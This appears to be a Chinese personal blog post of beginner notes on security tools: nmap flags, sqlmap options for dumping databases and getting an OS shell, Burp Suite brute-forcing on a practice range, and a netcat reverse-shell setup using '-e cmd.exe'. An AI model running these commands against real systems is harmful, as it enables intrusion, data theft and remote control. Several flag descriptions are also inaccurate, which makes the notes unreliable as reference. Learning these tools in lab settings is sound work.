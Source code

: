 ```yaml
---
title: tools help
date: 2022-01-22 11:32:54
tags:
      - tools
      - 安全
      - nmap
categories:
description:
keywords:
---
```


# tools 

## nmap

nmap：一款端口扫描工具

使用方法以及参数如下

==在这里$ 代表ip或者url==

> nmap $
>
> - -v:显示详细信息
> - -p:指定端口
>   - -p 80,8080
> - -O:扫描目标是什么操作系统,使用的什么协议
> - -iL 文件:扫描指定文件的ip
> - -V:版本检测 用于扫描目标主机服务版本号. 探测打开的端口以确定服务/版本信息
> - -sA:综合模式扫描
> - -sS:安全模式扫描
> - -sL:list扫描
> - -sT:使用tcp扫描模式
> - -sF:快速扫描
> - -sR:RPC扫描
> - -sn:测试存活主机
> - -U:测试那些udp开放
> - -X:表示以xml的格式输出结果到以文件
> - -P:ping探测
> - -Pn:跳过主机存活扫描过程
> - -P0:ip检测协议是否开启
> - -T:设定模板(越高越快)
>
> 常用
>
> nmap -sS $
>
> nmap -sA -T 4 $



## SQLmap

nginx /etc/nginx/nginx.conf



一款sql注入测试工具



sqlmap -r 文件名

sqlmap -u url或者域名

哪个位置需要进行注入就在哪个位置加==\*==,如下

> sqlmap -u http://localhost/?id=111\*&kkk=aaa

这样就可以对id进行注入了(文件中也一样)

下面是常用命令

>- --dbs:获取所有的数库
>- --current-db:获取当前的数据库
>- --threads 10:开启10个线程
>- --data id=111&password=222:使用post提交,并且表单为id和password
>- --tables -D "库":获取指定数据库的所有表
>- --columns -T "表名称" -D "库名":获取指定库名的表中所有字段
>- --dump -T "表名称" -D "库名" -C "字段":获取指定按照指定的库名表名字段来获取数据库的数据
>- --cookie:使用cookie
>- --file-read"读取的文件夹位置":读取某个文件
>- --file-write "绝对路径":写入文件到某个绝对路径中
>- --batch:自动yes
>- --risk 3:执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
>- --referer "":使用referer欺骗
>- --user-agent "":自定义user-agent
>- --proxy "目标地址":使用代理注入
>-  -v  详细的等级(0-6)
>            0：只显示Python的回溯，错误和关键消息。
>            1：显示信息和警告消息。
>            2：显示调试消息。
>            3：有效载荷注入。
>            4：显示HTTP请求。
>            5：显示HTTP响应头。
>            6：显示HTTP响应页面的内容
>- --os-shell(需要绝对路径和语言):获取shell



## Burp



是一个数据包捕获软件

首先我们可以设置代理

![image-20220122160622437](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-1.png)

然后去浏览器设置代理以火狐为例子

去设置里面的高级---网络---代理

![image-20220122161034011](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-2.png)

然后安装协议首先访问http://burp

然后下载证书,然后进入设置,高级---证书---证书机构---导入   这样导入证书

![image-20220122161254985](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-3.png)



#### 使用本地的DNS

![image-20220122161507557](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-4.png)



选择这个打开dns服务器,然后就可以使用并看到结果了

![image-20220122161604192](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-5.png)



当我们抓取到数据后就可以进行参数设置,当我们进行post提交的时候有时需要进行编码的调整如:==%00需要被编码否则传输过程中可能会丢失,而且%00进行base64时会被丢失==



![image-20220122162024999](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-6.png)

Send to Intruder和Send to Repeater的时候不能选择东西否则只会进行选择部分的测试



#### 首先介绍一下Send to Intruder    暴力破解

pikaqiu靶场

暴力破解第一题

首先单击请求进行请求

![image-20220119151356569](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-7.png)

然后抓到包后ctrl+i

![image-20220119151545986](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-8.png)



然后进入如下模块并对破解点进行添加

![image-20220119151700990](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-9.png)



![image-20220119154920801](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-10.png)

设置一个type然后进入payloads

![image-20220119155535580](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-11.png)

设置线程数量

![image-20220119155617982](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-12.png)

设置正则获取页面数据

![image-20220119155652450](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-13.png)



单机add设置正则

![image-20220119155849551](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-14.png)



![image-20220119160023712](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-15.png)



设置每次攻击前重新获取token就要进行重定向

![image-20220119160133327](D:\Code\pojo\Blog\BlogHexo\public\img\Tools-16.png)



## nc

一个进行远程命令控制的



黑客电脑的nc运行如下命令

nc -lvp [端口号]



靶机运行如下命令

nc -nv [ip] [端口] -e cmd.exe





>- -l:将nc监听模式运行
>- -k:接受一个请求不会结束而是继续监听





## scapy



构建一个IP数据包



